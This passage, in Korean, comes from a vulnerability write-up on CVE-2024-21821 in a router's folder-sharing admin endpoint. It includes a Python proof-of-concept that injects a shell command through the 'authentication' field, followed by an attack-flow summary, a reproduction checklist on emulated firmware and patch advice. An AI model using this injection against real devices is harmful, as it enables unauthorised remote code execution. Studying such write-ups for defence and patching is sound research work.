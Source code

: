 ```python
    ap.add_argument('-c', default='uname -a > /www/poc.txt', help='command to run')
    a = ap.parse_args()

    cli = WebClient(a.t, a.p)
    if cli.stok:
        endpoint = '/admin/folder_sharing?form=auth'
        inj = f"off; {a.c}; #"  # 주입 페이로드
        payload = {'operation': 'write', 'authentication': inj}
        resp = cli.encrypted_request(endpoint, payload)
        print(resp)
        print(f'Check http://{a.t}/poc.txt')
```

### 4.2 공격 흐름 요약

1) **클라이언트**: 로그인 → `stok` 획득 → `/admin/folder_sharing?form=auth` 로 `operation=write` 전송  
2) **서버**: `index → folder_index → folder_dispatch → ctl.dispatch` 경유, `share_auth()` 호출  
3) **패치 전**: `authentication` 값 미검증 + 문자열 결합 실행(`sys.call`) → **RCE**  
4) **패치 후**: 허용값 검증 + 인자 배열 실행(`subprocess.call`) → **주입 차단**

---

## 5. 재현 체크리스트

- [ ] 펌웨어 추출 및 SquashFS 루트 준비 완료
- [ ] `qemu-*-static` 주입 및 `ubusd`, `uhttpd` 기동
- [ ] `uci` 에 `account1.username/password` 구성
- [ ] 대상 펌웨어가 **패치 이전**임 확인
- [ ] 네트워크는 로컬/격리 환경(교육·연구 목적)

---

## 6. 완화/패치 요약

- 입력값 화이트리스트(`on`/`off`) 도입
- 쉘 문자열 실행 → **인자 배열 실행**(subprocess)
- 운영 측면: USB 공유 기능 미사용 시 비활성화, 관리자 UI 접근 제한, 최신 펌웨어 적용

---

## 7. 참고 링크

- NVD: <https://nvd.nist.gov/vuln/detail/cve-2024-21821>
- CVE Details: <https://www.cvedetails.com/cve/CVE-2024-21821/>

---

> **주의**: 본 문서는 교육·연구 재현 목적이며, 패치 이전 기기에 대한 무단 테스트를 금한다. 공개 PoC는 외부 네트워크를 사용하지 않는 **격리 환경**에서만 사용한다.
